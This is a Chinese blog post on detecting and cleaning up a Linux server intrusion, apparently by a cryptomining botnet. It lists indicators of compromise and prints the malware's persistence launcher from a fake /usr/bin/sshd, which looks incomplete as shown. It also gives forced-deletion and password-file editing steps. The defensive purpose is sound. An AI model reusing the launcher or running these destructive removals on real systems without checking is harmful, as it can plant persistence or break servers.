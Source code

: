 ```yaml
---
layout: post                          # 表明是博文  
title: "root用户登录出现 -bash-4.2"           # 博文的标题  
date: 2022-01-07                 # 博文的发表日期，此日期决定主页上博文的先后顺序  
author: "秦"                       # 博文的作者  
catalog: True                         # 开启catalog，将在博文侧边展示博文的结构
tags:
    - Linux
    - 漏洞
    - 安全
---
```

# root用户登录出现 -bash-4.2

[TOC]


在修复过.bashrc文件或者恢复过.bashrc后，仍然出现-bash-4.2#，那么有可能你的机器已经被入侵了，附上我遇到的这种情况，看看对你有没有帮助。

## 1、确认是否被入侵

### 出现以下现象或存在以下目录

- root用户登录出现   -bash-4.2# 
- netstat 命令回显为空
- crontab -l 查看系统定时任务
- 检查系统用户列表是否有 gh0stx, sclipicibosu, mexalzsherifu 三个或其中任意一个
- 查看是否存在/var/tmp/.ladyg0g0/目录
- 查看是否存在/var/tmp/.sl/目录
- 检查/root/.ssh/authorized_keys是否存在异常

- 查看是否存在/usr/.SQL-Unix/.SQL/.db 或者 /var/tmp/.SQL-Unix/.SQL/.db

- 查看是否存在/usr/tmp/.ladyg0g0/.pr1nc35 或者  /var/tmp/.ladyg0g0/.pr1nc35

- 查看是否存在/usr/bin/.pidsclip

- 查看是否存在/usr/bin/.locationesclipiciu

- 检查/usr/bin/sshd   内容是否是如下代码段

  ```shell
  #!/bin/bash
  locatieasdf=$(cat /usr/bin/.locationesclipiciu)
  if [ ! -d  ]; then
          mkdir
          rsync -r /usr/bin/.locationesclipiciu/ /
          sleep 1
          /.b4nd1d0 > /dev/null 2>&1 & disown
  else
          if [ ! -f  /.dorel ]; then
                  rsync -r /usr/bin/.locationesclipiciu/ /
                  sleep 1
                  /.b4nd1d0 > /dev/null 2>&1 & disown
  fi
  ```

## 2、威胁处理

### 删除恶意脚本

1. 强制删除 /var/tmp/.sl/ 目录

2. 强制删除 /var/tmp/.ladyg0g0/ 目录

3. 强制删除 /usr/bin/.locationesclipiciu

4. 强制删除 /usr/bin/.pidsclip

5. 强制删除 /root/.b4nd1d0  

6. 强制删除 /root/.dorel

7. 强制删除 /usr/.SQL-Unix/ 目录

8. 强制删除 /usr/tmp 目录

9. 强制删除 /usr/bin/sshd

10. 删除 /etc/cron.daily/man-db.cron

11. 删除/etc/cron.hourly/0anacron

12. 检查异常SSH公钥，排查~/.ssh/authorized_keys文件，如果发现可疑的SSH公钥，直接删除

13. rm -rf  /usr/lib/systemd/system/myservice.service

14. 恢复.bashrc文件   cp /etc/skel/.bash*  /root/

15. 修改/root/.bashrc文件

    ```shell
    export PS1='[\u@\h \W]\$'
    ```

    

16. 删除 gh0stx, sclipicibosu, mexalzsherifu 中存在的用户

    ```shell
    vim /etc/passwd   // 删除存在得用户  
    vim /etc/shadow   // 删除存在的用户
    
    userdel –r sclipicibosu//删除不成功就使用chmod修改/etc/passwd和/etc/shadow权限，再使用vim删除该用户 
    ```

17. reboot重启

18. passwd //修改密码为强口令 

## 3、恶意脚本分析

1. 往系统服务中注册了一个私有服务 /lib/systemd/system/myservice.service
2. myservice私有服务中进行了一个文件同步操作 rsync -r /usr/bin/.locationesclipiciu/  
3. 同步了  /var/tmp/.sl/ 下的内容
4. 重写.bashrc，导致常用命令失效
5. 后续可能进行的行为暂时不明

## 4、参考文章

> [腾讯主机安全截获TOPMiner挖矿木马，受害服务器约1.5万台 (tencent.com)](https://s.tencent.com/research/report/1213.html)
>
> [How We Tracked a Threat Group Running an Active Cryptojacking Campaign (bitdefender.com)](https://www.bitdefender.com/blog/labs/how-we-tracked-a-threat-group-running-an-active-cryptojacking-campaign/)
>
> [home (urdr-gungnir.github.io)](https://urdr-gungnir.github.io/post/报毒事件应急处理.html)
>
> [home (urdr-gungnir.github.io)](https://urdr-gungnir.github.io/post/挖矿木马应急处理.html)
> [home (urdr-gungnir.github.io)](https://urdr-gungnir.github.io/post/挖矿木马应急处理.html)
>
> [一款“僵尸网络挖矿” 攻击分析_whatday的专栏-CSDN博客_僵尸网络挖矿](https://blog.csdn.net/whatday/article/details/103761081)
>
> [记录一次服务器被入侵，单进程CPU超过1000%_a别无所求的博客-CSDN博客_sysdrr](https://blog.csdn.net/weixin_45284355/article/details/110728620)

